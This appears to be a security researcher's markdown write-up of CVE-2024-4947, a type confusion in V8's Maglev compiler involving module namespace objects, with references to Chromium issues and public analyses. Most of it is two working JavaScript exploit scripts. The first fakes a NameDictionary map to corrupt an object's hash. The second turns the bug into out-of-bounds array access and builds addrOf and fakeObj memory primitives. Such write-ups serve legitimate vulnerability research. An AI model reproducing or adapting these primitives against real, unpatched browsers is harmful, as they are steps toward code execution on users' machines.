

# CVE-2024-4947

Author: Jack Ren ([@bjrjk](https://github.com/bjrjk))

## Object Hash Reassign

### Overview

Analyses for CVE-2024-12695 introduced a brand new exploit pattern, *Object Hash Reassign*. By assigning the same object with different hashes twice, attackers can finally achieve full control of V8 Sandbox. \[[3][3], [4][4]\]

We've discovered a method to transform this vulnerability to achieve *Object Hash Reassign*. In that case, it's exploitable. The brief escalate process is listed as follows.

The original PoC could assign a tagged value to `JSModuleNamespace->properties_or_hash->map`. To utilize this behaviour, we fake a `Map` object whose `instance_type` is `NAME_DICTIONARY_TYPE`, and assign this object to the `map` field. As a consequence, the `properties_or_hash` switch its `instance_type` between `PropertyArray` and `NameDictionary`. As the hash is stored in `properties_or_hash` when object has properties, the store offset of `hash` is changed due to this type confusion. So the problem is reduced to *Object Hash Reassign* now.

### PoC



`PoCs/Modified/PoC2.mjs`:

```javascript
// out/x64.ReleaseAssertionDebug/d8 --allow-natives-syntax --expose-gc --module CVE-2024-4947/Exploit/PoC2.mjs

// Corrupt capacity of JSFinalizationRegistry->key_map and SIGSEGV

import * as m from 'Module.mjs';

m.p0; // m->properties_or_hash is PropertyArray
let y = new Array(1234); // 1234 will be m's hash after properties_or_hash->map reassigned
%DebugPrint(m); // PropertyArray(m->properties_or_hash) and JSArray(y) is adjacent

// Fake a map by using BigInt
const instance_type = 178n; // 16b, NAME_DICTIONARY_TYPE
let bit_field = 0b0n; // 8b
let bit_field2 = 0b0n; // 8b
let bit_field3 = 0b0n; // 32b
let fakeMap = instance_type + (bit_field << 16n) + (bit_field2 << 24n) + (bit_field3 << 32n);

function bar() {
  try {
    // It's not allowed to assign to property of module.
    // So wrapped it with try-catch clause.
    m.p0 = fakeMap;
  } catch (e) { }
}

function finalizationCallback() {
  console.log("finalizationCallback");
  for (let i = 0; i < 10; i++) {
    registry.register({ "target": 3 + i }, 3 + i, { "token": 3 + i });
  }
}

const registry = new FinalizationRegistry(finalizationCallback);
let target1 = { "a": 1 };
let target2 = { "a": 2 };

registry.register(target1, 1, m);
registry.register(target2, 2, m);
%DebugPrint(m); // m got a hash stored in high bits of `PropertyArray::kLengthAndHashOffset` (+4)

%PrepareFunctionForOptimization(bar);
bar();
%OptimizeMaglevOnNextCall(bar);
bar();
%DebugPrint(m); // Due to `properties_or_hash` is an `PropertyDictionary` now, hash stores in `FixedArray::OffsetOfElementAt(NameDictionary::kObjectHashIndex)` (+18), which is `y.length`

target2 = undefined;
console.log("Before GC");
gc();
console.log("After GC");
```

## Assign object hash to `JSArray.length`

### Overview

This idea is from [Kaspersky's official writeup][5]. According to the point-to-relation graph of previous section, the field `objectHash` of confused shape `NameDictionary` and field `length` of actual shape `JSArray` is aligned. If the `length` of `JSArray` is zero initially, we can trigger an operation to assign a hash to `NameDictionary.objectHash`. In that case, the hash is written to `JSArray.length` actually and the `JSArray` can be OOB accessed.

### Exploit

#### AddressOf & FakeObj

`PoCs/Modified/Exploit2.mjs`:

```javascript
// out/x64.ReleaseAssertionDebug/d8 --allow-natives-syntax --module CVE-2024-4947/Exploit/Exploit2.mjs

const ab = new ArrayBuffer(8);
const f64a = new Float64Array(ab, 0, 1);
const i32a = new Uint32Array(ab, 0, 2);
const bi64a = new BigUint64Array(ab, 0, 1);

function c2f(low, high = 0) { // combined (two 4 bytes) word to float
    i32a[0] = low;
    i32a[1] = high;
    return f64a[0];
}

function b2f(v) { // bigint to float
    bi64a[0] = v;
    return f64a[0];
}

function f2b(v) { // float to bigint
    f64a[0] = v;
    return bi64a[0];
}

function fhw(v) { // high word of float
    f64a[0] = v;
    return i32a[1];
}

function flw(v) { // low word of float
    f64a[0] = v;
    return i32a[0];
}

function unptr(v) {
    return v & 0xfffffffe;
}

function ptr(v) {
    return v | 1;
}


import * as m from 'Module.mjs';

const fakeMap = c2f(0x0000_0000, 0x0000_00B2); // instance_type: NAME_DICTIONARY_TYPE

function opt() {
    try {
        m.p0 = fakeMap;
    } catch (e) {
        return false;
    }
    return true;
}

function trigger() {
    m.p0; // Trigger `JSModuleNamespace.properties_or_hash` transition [NameDictionary => PropertyArray]
    const corruptArray = [1, 2]; // Allocated adjacently
    corruptArray.pop();
    corruptArray.pop();
    const doubleArray = [2.30234E-320, 2.30234E-320]; // Allocated adjacently; corruptArray[4-5, 6-7]

    // while (!opt());
    %PrepareFunctionForOptimization(opt);
    console.assert(!opt());
    %OptimizeMaglevOnNextCall(opt);
    console.assert(opt());

    new WeakRef(m); // Assign hash to `m`, thus the length of `corruptArray` got OOB written with a large value
    return { corruptArray, doubleArray };
}

const { corruptArray, doubleArray } = trigger();

// %DebugPrint(m);
// %DebugPrint(corruptArray);
// %DebugPrint(doubleArray);

function addrOf(obj) {
    corruptArray[4] = obj;
    return unptr(flw(doubleArray[0]));
}

// Only available after corruptArray transitioned from PACKED_SMI_ELEMENTS to PACKED_ELEMENTS
function fakeObj(addr) {
    doubleArray[0] = c2f(ptr(addr));
    return corruptArray[4];
}

let obj = {};
%DebugPrint(obj);
console.log(addrOf(obj).toString(16));
%DebugPrint(fakeObj(addrOf(obj)));
```

## References

1. https://issues.chromium.org/issues/340221135
2. https://web.archive.org/web/20250426073331/https://buptsb.github.io/blog/post/CVE-2024-4947-%20v8%20incorrect%20AccessInfo%20for%20module%20namespace%20object%20causes%20Maglev%20type%20confusion.html
3. https://issues.chromium.org/issues/383647255
4. https://bugscale.ch/blog/dissecting-cve-2024-12695-exploiting-object-assign-in-v8/
5. https://securelist.com/lazarus-apt-steals-crypto-with-a-tank-game/114282/

[1]: https://issues.chromium.org/issues/340221135
[2]: https://web.archive.org/web/20250426073331/https://buptsb.github.io/blog/post/CVE-2024-4947-%20v8%20incorrect%20AccessInfo%20for%20module%20namespace%20object%20causes%20Maglev%20type%20confusion.html
[3]: https://issues.chromium.org/issues/383647255
[4]: https://bugscale.ch/blog/dissecting-cve-2024-12695-exploiting-object-assign-in-v8/
[5]: https://securelist.com/lazarus-apt-steals-crypto-with-a-tank-game/114282/
